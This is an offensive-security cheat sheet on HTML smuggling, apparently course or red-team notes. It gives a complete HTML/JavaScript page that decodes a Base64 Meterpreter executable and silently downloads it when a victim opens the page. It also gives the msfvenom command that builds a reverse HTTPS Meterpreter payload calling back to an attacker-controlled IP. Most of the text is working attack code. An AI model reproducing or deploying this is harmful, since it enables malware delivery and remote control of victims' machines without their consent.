

# Client side code exec using HTML smuggling

## How to create
```
1. Create a Base64 Meterpreter executable and store it as a *Blob* inside of a JavaScript variable

2. Use that Blob to create a URL file object that simulates a file on the web server

3. Create an invisible anchor tag that will trigger a download action once the victim loads the page
```
Example
```html
<html>
    <body>
        <script>
          function base64ToArrayBuffer(base64) {
    		  var binary_string = window.atob(base64);
    		  var len = binary_string.length;
    		  var bytes = new Uint8Array( len );
    		  for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); }
    		  return bytes.buffer;
      		}
      		
      		var file ='TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAA...
      		var data = base64ToArrayBuffer(file);
      		var blob = new Blob([data], {type: 'octet/stream'});
      		var fileName = 'msfstaged.exe';
      		
      		var a = document.createElement('a');
      		document.body.appendChild(a);
      		a.style = 'display: none';
      		var url = window.URL.createObjectURL(blob);
      		a.href = url;
      		a.download = fileName;
      		a.click();
      		window.URL.revokeObjectURL(url);
        </script>
    </body>
</html>
```
Generate a windows/x64/meterpreter/reverse_https payload using our now-familiar syntax and convert it to base64:
```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
base64 /var/www/html/msfstaged.exe
```

*Before embedding the Base64-encoded executable, we must remove any line breaks or newlines, embedding it as one continuous string. Alternatively, we could wrap each line in quotes

Result


## References
https://www.outflank.nl/blog/2018/08/14/html-smuggling-explained/
https://www.outflank.nl/demo/html_smuggling.html